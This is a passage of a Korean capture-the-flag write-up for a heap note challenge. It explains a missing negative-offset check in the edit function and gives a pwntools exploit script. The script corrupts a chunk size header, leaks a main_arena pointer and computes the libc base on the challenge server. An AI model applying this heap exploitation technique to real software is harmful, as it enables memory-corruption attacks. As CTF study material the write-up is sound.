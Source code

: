 노트의 내용을 출력해준다.

### 해결

edit에서 offset을 입력받을때 노트의 size보다 작은지를 검사하는데 음수인지는 신경쓰지 않는다.

이를 이용해서 이미 할당된 청크의 헤더의 크기정보를 담고있는 곳을 조작하면 기존의 청크보다 두배 + 0x10정도 큰 청크를 나타내게 된다.

이후 그 청크를 free하고 재 할당받으면 원래 청크의 크기보다 큰 공간을 할당받을 수 있다.

만약 조작전의 청크 뒤에 free되어 unsorted bin에 들어간 청크가 있다면 main_arena의 주소를 통해 libc의 주소를 알아낼 수 있다.

##### exploit.py

```python
from pwn import *

host = ["prob.cykor.kr", "localhost"]
port = [1002, 51337]

p = remote(host[0], port[0])
libc = ELF("./deploy/libc.so.6")

def create_note(index, size, content):
    p.sendlineafter(">", "1")
    p.sendlineafter("index: ", str(index))
    p.sendlineafter("2048): ", str(size))
    p.sendafter("content: ", content)

def free(index):
    p.sendlineafter(">", "2")
    p.sendlineafter("free: ", str(index))
def edit(index, offset):
    p.sendlineafter(">", "3")
    p.sendlineafter("index: ", str(index))
    p.sendlineafter("offset: ", str(offset))
    
def print_note(index):
    p.sendlineafter(">", "4")
    p.sendlineafter("print: ", str(index))

create_note(0, 0x40, "hi")
create_note(1, 0x410, "hi")

edit(1, -0x78)

free(0)
create_note(0, 0x40, "hi")
free(1)
free(0)

create_note(0, 0xa0, b"A"*0x70)
print_note(0)

p.recvuntil("data: "+"A"*0x70)
arena_addr = u64(p.recvline()[:-1].ljust(8, b"\x00"))

puts_addr = arena_addr - 0x17bf50
libc_base = puts_addr - libc.symbols["puts"]
libc.address = libc_base

log.info("puts_addr : "+hex(puts_addr))
log.info("libc_base : "+hex(libc_base))

p.interactive()
```
